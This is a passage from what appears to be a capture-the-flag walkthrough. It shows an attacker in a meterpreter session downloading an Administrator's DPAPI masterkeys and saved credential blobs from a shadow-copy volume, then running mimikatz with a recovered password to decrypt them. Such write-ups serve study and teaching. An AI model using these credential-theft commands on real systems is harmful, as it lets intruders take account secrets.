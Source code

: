 ## Decrypting DPAPI Credentials

As now we have plain password, we can attemp to decrypt DPAPI credentials (that are also located within the backup volume). To do this I will first grab admin's masterkeys:

```
meterpreter > ls \\vss\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Protect\\S-1-5-21-4124311166-4116374192-336467615-500
============================================================================================================
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  468   fil   2019-09-09 13:07:12 +0300  87790867-a883-4a2d-a467-019c315e1104
100666/rw-rw-rw-  24    fil   2019-09-08 22:44:06 +0300  Preferred
100666/rw-rw-rw-  468   fil   2019-09-08 22:44:06 +0300  dc6059f1-5ba2-4186-871a-0ff4055a6875

meterpreter > download \\vss\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Protect\\S-1-5-21-4124311166-4116374192-336467615-500\\87790867-a883-4a2d-a467-019c315e1104
meterpreter > download \\vss\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Protect\\S-1-5-21-4124311166-4116374192-336467615-500\\dc6059f1-5ba2-4186-871a-0ff4055a6875
```

And grab his secrets:

```
meterpreter > ls \\vss\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Credentials
=======================================================================
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  474   fil   2019-09-09 13:08:32 +0300  1A2572C793495F694F64823A392D4718
100666/rw-rw-rw-  474   fil   2019-09-09 13:07:12 +0300  4A2EEB30EFC7958491B6578D9948EC7F

meterpreter > download \\vss\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Credentials\\1A2572C793495F694F64823A392D4718
meterpreter > download \\vss\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Credentials\\4A2EEB30EFC7958491B6578D9948EC7F
```

Then I can run mimikatz on my host to decrypt captured credentials:

```
mimikatz # cd secrets
mimikatz # dpapi::masterkey /in:87790867-a883-4a2d-a467-019c315e1104 /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:./*40ra26AZ
```
